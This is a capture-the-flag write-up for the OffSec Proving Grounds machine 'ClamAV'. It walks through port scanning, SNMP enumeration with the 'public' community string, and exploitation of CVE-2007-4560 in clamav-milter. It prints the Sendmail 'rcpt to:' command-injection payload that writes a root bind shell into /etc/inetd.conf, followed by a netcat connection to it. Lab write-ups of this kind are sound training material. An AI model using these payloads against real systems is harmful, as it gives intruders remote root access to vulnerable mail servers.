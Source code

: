 # 🧪 Machine Name: ClamAV

**Platform:** OffSec Proving Grounds  
**IP Address:** `192.168.228.42`  
**Difficulty:** Easy  

---

## 🕵️ Overview

ClamAV is an OffSec PG box that exposes several interesting services including an outdated mail setup with `clamav-milter`. After ruling out HTTP, SMB, and SNMP as dead-ends, we identify and exploit a remote root vulnerability in `clamav-milter` triggered through Sendmail. We confirm root with `proof.txt`, `hostname`, and `whoami`.

---

## 🔍 Enumeration

### 🔎 Nmap Full TCP Scan
```
nmap -p- --min-rate 10000 192.168.228.42

PORT      STATE SERVICE
22/tcp    open  ssh
25/tcp    open  smtp
80/tcp    open  http
139/tcp   open  netbios-ssn
199/tcp   open  smux
445/tcp   open  microsoft-ds
60000/tcp open  unknown
```

### 🔍 Nmap Targeted Enumeration
```
nmap -p 22,25,80,139,199,445,60000 -sC -sV -oN nmapscan 192.168.228.42

22/tcp  - OpenSSH 3.8.1p1
25/tcp  - Sendmail 8.13.4
80/tcp  - Apache 1.3.33 (Debian GNU/Linux)
445/tcp - Samba smbd 3.0.14a-Debian
199/tcp - Linux SNMP multiplexer
```

---

## 🔒 Service Enumeration

### 🚩 SMB (Guest access, no usable shares)
```
netexec smb 192.168.228.42 -u guest -p '' --shares
```
- No writable or interesting shares.

### 📄 HTTP
- Binary on main page decodes to: `ifyoudontpwnmeuran00b`
- Apache 1.3.33 found
- Dirbusting reveals only `/index.html` and standard 403s
- No RCE or LFI discovered

### 🔢 SNMP (UDP 161)
```bash
nmap -sU -p161 --script "*snmp*" 192.168.228.42
```
- SNMP is **misconfigured with community string `public`**
- Reveals clamav-milter and Sendmail processes

---

## ⚡ Exploitation

### 📄 CVE-2007-4560 – ClamAV Milter Remote Command Execution
- Found clamav-milter in SNMP output
- Vulnerability: Improper handling of Sendmail `rcpt to:` parsing can be used to append commands to `/etc/inetd.conf`

```bash
perl CVE-2007-4560.pl 192.168.228.42
```
Payload:
```bash
rcpt to: <nobody+"|echo '31337 stream tcp nowait root /bin/sh -i' >> /etc/inetd.conf"@localhost>
rcpt to: <nobody+"|/etc/init.d/inetd restart"@localhost>
```

### 🔧 Root Access via Backdoor
```bash
nc -nv 192.168.228.42 31337
whoami    # root
hostname  # 0xbabe.local
cat proof.txt
a3c43c727ec533f1387ef24134c8cea1
```

---

## 💡 Lessons Learned
- `clamav-milter` RCE is rarely seen but extremely effective if exposed.
- SNMP misconfig (public string) provided process insights that led to the correct exploit.
- Services like `inetd` are uncommon but still exploitable on legacy systems.

---

## 📷 Proof
![ClamAV Proof](https://raw.githubusercontent.com/inkedqt/ctf-writeups/main/HTB/proofs/clamav.png)


